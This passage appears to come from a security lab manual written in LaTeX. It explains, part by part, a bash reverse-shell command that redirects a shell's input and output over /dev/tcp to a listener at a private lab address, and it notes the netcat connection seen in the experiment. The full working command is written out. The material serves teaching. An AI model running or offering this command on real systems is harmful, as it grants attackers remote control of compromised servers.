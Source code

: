 The above command represents the one that would normally be executed on a compromised server.
It is quite complicated, and we give a detailed explanation in the following:


\begin{itemize}
\item \texttt{"/bin/bash -i"}: The option \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt).

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: This causes the output device~(\texttt{stdout}) of the shell
  to be redirected to the TCP connection to \texttt{10.0.2.6}'s port \texttt{9090}.
  In \unix systems, \texttt{stdout}'s file descriptor is \texttt{1}.

\item \texttt{"0<\&1"}: File descriptor \texttt{0} represents the standard input device~(\texttt{stdin}).
  This option tells the system to use the standard output device as the stardard input device.
  Since \texttt{stdout} is already redirected to the TCP connection, this option basically
  indicates that the shell program will get its input from the same TCP connection.

\item \texttt{"2>\&1"}: File descriptor \texttt{2} represents the standard error \texttt{stderr}. This
  causes the error output to be redirected to \texttt{stdout}, which is the TCP connection.
\end{itemize}

In summary, the command \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell on the server machine, with its input coming from a TCP connection,
and output going to the same TCP connection.
In our experiment, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.6}. This is confirmed via the \texttt{"Connection from 10.0.2.5 ..."}
message displayed by \texttt{netcat}.




